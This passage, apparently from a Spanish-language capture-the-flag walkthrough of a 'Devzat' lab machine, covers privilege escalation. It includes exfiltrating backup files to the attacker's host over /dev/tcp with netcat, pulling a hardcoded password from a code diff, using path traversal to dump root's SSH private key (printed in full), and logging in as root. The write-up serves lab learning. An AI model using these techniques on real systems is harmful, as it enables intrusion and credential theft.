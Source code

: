 ---------------------------
## Part 5: Escalando privilegios

Como tenemos la contraseña de la Catherine: 
```console
└─$ ssh -l catherine 127.0.0.1 -p 8443
patrick: Ey Catherine, me alegro de verte.
catherine: Hey compañero, en que has estado ultimamente?
patrick: Recuerdas la utilidad tan guay de la que te hablé el otro dia?
catherine: Si
patrick: Yo la implementé. Si quieres verla conectate al la intancia local por el puerto 8443.
catherine: Esque estoy algo liada ahora... 👔
patrick: Bueno, está bien 👍  Necesitarás una contraseña para entrar. La he dejado en nuestra zona de backups
catherine: k
patrick: También puse la versión pública para que la puedas usar tambien.
catherine: Ok, en cuanto el jefe me deje un rato, le echaré un vistazo.
patrick: Genial, deseando saber tu opinión. Es una alfa, o sea no es segura del todo. Hasta luego lucas!
devbot: patrick has left the chat

catherine: /file "/etc/passwd" "woBeeYareedahc7Oogeephies7Aiseci"
# Contraseña incorrecta
```
No podemos hacer ssh con las creds de esta señora, pero si acceder desde la consola del sistema que ya tenemos.  
```console
patrick@devzat:/tmp$ su catherine
Password: woBeeYareedahc7Oogeephies7Aiseci
```
Habia dicho antes algo de archivos backup, en /backups estan:  
```console
/var/backups/devzat-main.zip
/var/backups/devzat-dev.zip
catherine@devzat:/var/backups$ cat devzat-dev.zip > /dev/tcp/10.10.14.12/444
└─$ sudo nc -nlvp 444 > dev.zip
Ncat: Connection from 10.10.11.118:47536.
catherine@devzat:/var/backups$ cat devzat-main.zip > /dev/tcp/10.10.14.12/444
└─$ sudo nc -nlvp 444 > dev.zip
Ncat: Connection from 10.10.11.118:47550.

# Creo en mi sistema una carpeta con los zips y los unzipeo ahí
└─$ diff dev main
< 	// Check my secure password
< 	if pass != "CeilingCatStillAThingIn2021?" {
< 		u.system("You did provide the wrong password")
< 		return

└─$ ssh -l catherine 127.0.0.1 -p 8443 
catherine: /file /etc/passwd CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/etc/passwd does not exist!
catherine: /file /root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] The requested file @ /root/devzat/root/.ssh/id_rsa does not exist!
catherine: /file ../../root/.ssh/id_rsa CeilingCatStillAThingIn2021?
[SYSTEM] -----BEGIN OPENSSH PRIVATE KEY-----
[SYSTEM] b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
[SYSTEM] QyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqAAAAJiUCzUclAs1
[SYSTEM] HAAAAAtzc2gtZWQyNTUxOQAAACDfr/J5xYHImnVIIQqUKJs+7ENHpMO2cyDibvRZ/rbCqA
[SYSTEM] AAAECtFKzlEg5E6446RxdDKxslb4Cmd2fsqfPPOffYNOP20d+v8nnFgciadUghCpQomz7s
[SYSTEM] Q0ekw7ZzIOJu9Fn+tsKoAAAAD3Jvb3RAZGV2emF0Lmh0YgECAwQFBg==
[SYSTEM] -----END OPENSSH PRIVATE KEY-----
# Nos la copiamos en un archivo llamado "id_rsa"
└─$ chmod 600 id_rsa   
└─$ ssh -i id_rsa root@devzat.htb
```